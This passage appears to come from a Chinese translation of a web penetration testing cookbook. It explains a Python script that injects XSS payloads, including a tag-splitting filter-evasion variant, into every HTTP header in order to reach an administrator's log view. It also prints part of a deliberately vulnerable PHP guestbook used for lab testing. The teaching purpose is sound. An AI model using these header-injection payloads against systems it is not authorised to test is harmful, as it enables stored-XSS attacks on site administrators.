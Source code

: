 该脚本不会提供任何输出，因为它以功能的管理端为目标。但是，您可以通过以下方式轻松设置它，以便在每个循环上提供输出：

```
Print "Submitted "+payload
```

每次都会返回以下内容：

```
Submitted <script>alert(1);</script>
```

## 它是如何工作的…

我们导入此脚本所需的库，并以`sys.argv`函数的形式进行输入。在这一点上，你应该相当相信这一点。

再一次，我们可以将有效负载声明为列表，而不是字典，因为我们将把它们与网页提供的值配对。我们还创建了一个空字典来存放我们未来的攻击配对：

```
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY ONLOAD=alert(1)>']
headers ={}
```

然后我们向网页发出`HEAD`请求，只返回我们攻击的页面的标题。`HEAD`请求可能被禁用，尽管可能性不大；但是，如果是，我们可以用标准的`GET`请求来代替：

```
r = requests.head(url)
```

我们循环使用前面设置的有效负载和从前面`HEAD`请求中提取的头文件：

```
for payload in payloads:
  for header in r.headers:
```

对于每个有效负载和头，我们将它们成对添加到前面设置的空字典中：

```
headers[header] = payload
```

对于有效载荷的每个迭代，我们随后提交所有具有该有效载荷的头部，因为我们显然不能提交每个头部的多个：

```
req = requests.post(url, headers=headers)
```

由于攻击的活动部分发生在管理员的客户端，因此需要使用管理员帐户进行手动检查，或者需要联系管理员以查看是否在日志记录链中的任何位置激活了攻击。

## 另见

以下是可用于测试前面脚本的设置。这与早期的 XSS 检查脚本非常相似。这里的区别是，传统的 XSS 方法将由于`strip_tags`函数而失败。它演示了需要使用非常规方法执行攻击的情况。显然，在注释中返回用户代理是人为的，尽管这在野外很常见。它们需要保存为工作所需的文件名，并与 MySQL 数据库一起存储注释。

以下是第一个名为`guestbook.php`的界面页面：

```
<?php

$my_rand = rand();

if (!isset($_COOKIE['sessionid4'])){
  setcookie("sessionid4", $my_rand, "10000000000", "/xss/vhard/");
}
?>

<form id="contact_form" action='addguestbook.php' method="post">
  <label>Name: <input class="textfield" name="name" type="text" value="" /></label>
  <label>Comment: <input class="textfield" name="comment" type="text" value="" /></label>
  <input type="submit" name="Submit" value="Submit"/> 
</form>
```